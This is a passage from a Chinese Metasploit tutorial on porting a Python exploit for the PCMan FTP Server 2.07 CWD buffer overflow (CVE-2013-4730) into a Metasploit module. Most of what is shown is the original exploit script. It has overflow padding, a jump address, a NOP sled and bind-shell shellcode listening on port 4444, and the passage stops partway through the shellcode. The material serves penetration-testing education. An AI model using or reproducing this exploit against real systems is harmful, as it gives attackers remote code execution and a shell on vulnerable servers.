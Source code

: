 ```yaml
---
title: MasterMsf 4 渗透模块的移植
category: metasploit
---
```


# {{ page.title }}

## 启程

> 今年花胜去年红。可惜明年花更好，知与谁同？

> Hacking is not the desire in breaking things. It's the desire becoming a smart-ass in things you know nothing about – so others don't have to.

本章我们尝试将其他语言编写的exploit模块移植到Metasploit中。这样做有以下优点：

- 方便管理和经验积累
- 节省攻击时间，提高代码重用度
- 能够实现payload动态切换

## 移植Python开发的栈溢出ExP

本次我们将移植[PCMan FTP Server 2.07 - 'CWD' Remote Buffer Overflow](https://www.exploit-db.com/exploits/31255/)，对应CVE-2013-4730，PoC作者也上传了存在漏洞的应用程序。

作者在注释中说在`Windows 7 sp1 x64 (english)`测试通过，我认为他关闭了DEP和ASLR，因为他的代码是最直接的`填充 + 跳板 + payload`结构。我在XP上测试。

### 原ExP有效性测试

修改他的ExP如下：

```py
import socket as s
from sys import argv

if(len(argv) != 4):
    print "USAGE: %s host <user> <password>" % argv[0]
    exit(1)
else:
    #store command line arguments
    script,host,fuser,fpass=argv
    #vars
    junk = '\x41' * 2006 #overwrite function (CWD) with garbage/junk chars
    espaddress = '\x1c\x81\xd0\x7d'
    nops = '\x90' * 10
    shellcode = ( # BIND SHELL | PORT 4444
        "\x31\xc9\xdb\xcd\xbb\xb3\x93\x96\x9d\xb1\x56\xd9\x74\x24\xf4"
        "\x5a\x31\x5a\x17\x83\xea\xfc\x03\x5a\x13\x51\x66\x6a\x75\x1c"
        "\x89\x93\x86\x7e\x03\x76\xb7\xac\x77\xf2\xea\x60\xf3\x56\x07"
        "\x0b\x51\x43\x9c\x79\x7e\x64\x15\x37\x58\x4b\xa6\xf6\x64\x07"
        "\x64\x99\x18\x5a\xb9\x79\x20\x95\xcc\x78\x65\xc8\x3f\x28\x3e"
        "\x86\x92\xdc\x4b\xda\x2e\xdd\x9b\x50\x0e\xa5\x9e\xa7\xfb\x1f"
        "\xa0\xf7\x54\x14\xea\xef\xdf\x72\xcb\x0e\x33\x61\x37\x58\x38"
        "\x51\xc3\x5b\xe8\xa8\x2c\x6a\xd4\x66\x13\x42\xd9\x77\x53\x65"
        "\x02\x02\xaf\x95\xbf\x14\x74\xe7\x1b\x91\x69\x4f\xef\x01\x4a"
        "\x71\x3c\xd7\x19\x7d\x89\x9c\x46\x62\x0c\x71\xfd\x9e\x85\x74"
        "\xd2\x16\xdd\x52\xf6\x73\x85\xfb\xaf\xd9\x68\x04\xaf\x86\xd5"
        "\xa0\xbb\x25\x01\xd2\xe1\x21\xe6\xe8\x19\xb2\x60\x7b\x69\x80"
        "\x2f\xd7\xe5\xa8\xb8\xf1\xf2\xcf\x92\x45\x6c\x2e\x1d\xb5\xa4"
        "\xf5\x49\xe5\xde\xdc\xf1\x6e\x1f\xe0\x27\x20\x4f\x4e\x98\x80"
        "\x3f\x2e\x48\x68\x2a\xa1\xb7\x88\x55\x6b\xce\x8f\x9b\x4f\x82"
        "\x67\xde\x6f\x34\x2b\x57\x89\x5c\xc3\x31\x01\xc9\x21\x66\x9a"
```